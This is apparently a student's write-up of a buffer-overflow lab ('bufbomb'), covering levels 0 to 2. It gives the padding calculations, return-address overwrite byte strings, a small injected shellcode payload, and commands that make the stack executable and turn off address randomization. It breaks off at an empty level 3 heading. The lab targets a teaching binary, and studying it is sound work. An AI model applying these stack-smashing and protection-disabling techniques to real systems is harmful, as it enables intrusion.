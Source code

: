# Lab 3
## level 0: Candle
Get address of smoke `08048e20 <smoke>:`.

There is 12 bytes of space for `char buf[12]`, and 4 bytes for `saved ebp`, so we need 16 bytes of padding before smoke address. Remember to use litte-endian.

`00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 20 8e 04 08`

## level 1: Sparkler

In this level, we need to set the parameter of function `fizz(int val)`. 

The pattern should be:
`[16 byte padding to overflow]`+`[fizz addr]`+`[4 byte padding for return address]`+`[cookie]`

So we get:
`00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 c0 8d 04 08 00 00 00 00 f1 0c 6f 46`

## level 2: Firecracker

Have to allow execstack for `bufbomb`.

```
execstack -s bufbomb
```

Look into asm code. `bang()` reads `global_val` with `0x804a1dc`. And function address is `08048d60`.

We can use this asm code to attack.
```
movl $0x466f0cf1,0x804a1dc      # global_value = cookie
push $0x08048d60                # return to bang
ret
```

We also need to know the address of this attacking code, lets put it at `buf[24]`. And the address would be `0xffffb554`

So out input is:
`00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 54 b5 ff ff 00 00 00 00 c7 04 25 dc a1 04 08 f1 0c 6f 46 68 60 8d 04 08 c3`


Here we successfully attacked in gdb mode, but directly execute will cause a segmentation fault.

Need to disable randomization of the kernel.
`sudo sysctl -w kernel.randomize_va_space=0`

## level 3: Dynamite

